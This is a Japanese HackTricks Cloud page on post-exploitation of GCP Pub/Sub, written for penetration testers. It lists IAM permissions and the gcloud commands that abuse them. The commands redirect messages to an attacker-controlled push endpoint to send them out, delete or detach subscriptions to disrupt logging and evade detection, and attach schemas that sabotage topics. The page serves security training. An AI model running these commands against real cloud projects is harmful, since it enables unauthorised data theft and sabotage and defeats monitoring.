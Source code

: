 # GCP - Pub/Sub ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Pub/Sub

Pub/Subに関する詳細情報は、以下のページを確認してください：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

トピックにメッセージを公開します。これは、**予期しないデータを送信**し、予期しない機能をトリガーしたり、脆弱性を悪用するのに役立ちます：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

メッセージを受信するのを防ぐために便利で、検出を避けるためかもしれません。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

サブスクリプションがメッセージを受信するのを防ぐために便利で、検出を避けるためかもしれません。\
サブスクリプションが接続されていても、トピックを削除することが可能です。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

この権限を使用して、`--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`などのトピックの設定を更新して妨害します。

### `pubsub.topics.setIamPolicy`

以前の攻撃を実行するための権限を自分に与えます。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

ウェブサーバー内のすべてのメッセージを取得します：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

サブスクリプションを作成し、それを使用して**メッセージを取得**します:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**サブスクリプションを削除する** は、ログ処理システムやそれに類似したものを妨害するのに役立つかもしれません:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

この権限を使用して、メッセージがアクセス可能な場所（URL、Big Queryテーブル、バケット）に保存されるように設定を更新するか、単にそれを妨害します。

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

自分に以前コメントした攻撃を実行するために必要な権限を与えます。

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

スキーマをトピックに攻撃して、メッセージがそれを満たさないようにし、したがってトピックが中断されます。\
スキーマがない場合は、作成する必要があるかもしれません。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

これはスキーマを削除するように見えるかもしれませんが、スキーマに適合しないメッセージを送信することはできません。しかし、スキーマが削除されるため、実際にはメッセージはトピックに入ることはありません。したがって、これは**無駄です**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

自分に以前コメントされた攻撃を実行するために必要な権限を与えます。

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

これは、すべての未ACKメッセージのスナップショットを作成し、それらをサブスクリプションに戻します。攻撃者にはあまり役に立ちませんが、ここにあります:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
